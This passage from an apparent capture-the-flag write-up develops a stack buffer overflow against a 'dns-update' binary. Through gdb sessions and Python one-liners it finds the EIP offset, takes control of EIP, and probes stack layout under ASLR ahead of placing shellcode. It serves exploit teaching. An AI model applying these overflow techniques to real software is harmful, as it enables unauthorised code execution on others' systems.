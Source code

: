 ```
root@kali:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x33624132
[*] Exact match at offset 38
```

Now that we know the offset to EIP, we will try to set it to a value of our choosing. Let's try `0x11223344`. We need to keep in mind that x86 stores numbers in a little endian format, which means the least significant byte is stored first, so our bytes will need to be `44 33 22 11`. We run the program again, however this time we use Python to generate our input. We ask Python to output `38 padding bytes` and then the string ``"\x44\x33\x22\x11"``. As expected we get another Segmentation Fault, but this time EIP is set to `0x11223344`.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\x44\x33\x22\x11"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\x44\x33\x22\x11"'`
ip address part 4 is invalid

Program received signal SIGSEGV, Segmentation fault.
0x11223344 in ?? ()
```

Now that we can control EIP, we need to point it to some shellcode that we also control. As we saw previously, the `stack is executable` in `dns-update`, so we can place shellcode in our input which will be stored on the stack. We can then point EIP at our shellcode on the stack.

We have an issue though, ASLR is enabled on the DMZ DNS server, which we can confirm with the command `cat /proc/sys/kernel/randomize_va_space` returning the value `2` which means full ASLR. This means that the stack's address will be randomized every execution, so we don't know the exact absolute address of our shellcode. To compound this issue, the server will likely have different environment variables which will cause the stack address to move a little bit aswell.

One thing we do know, is that this is a stack based buffer overflow that overwrites a return pointer on the stack. This means that assuming there is no stack adjustment with the 'ret', i.e. a 'ret 8', after our EIP is popped off the stack ESP will be pointing to the memory immediately after our EIP value. We can confirm this by adding some text after our EIP, running gdb again, waiting for the Segmentation Fault and examining the memory at ESP.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\x44\x33\x22\x11"+"IMATESP"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\x44\x33\x22\x11"+"IMATESP"'`
ip address part 4 is invalid

Program received signal SIGSEGV, Segmentation fault.
0x11223344 in ?? ()
(gdb) x/d $esp
0xbffff3f0:	0x54414d49
(gdb) x/d $esp-4
0xbffff3ec:	0x11223344
(gdb) x/s $esp
0xbffff3f0:	"IMATESP"
```
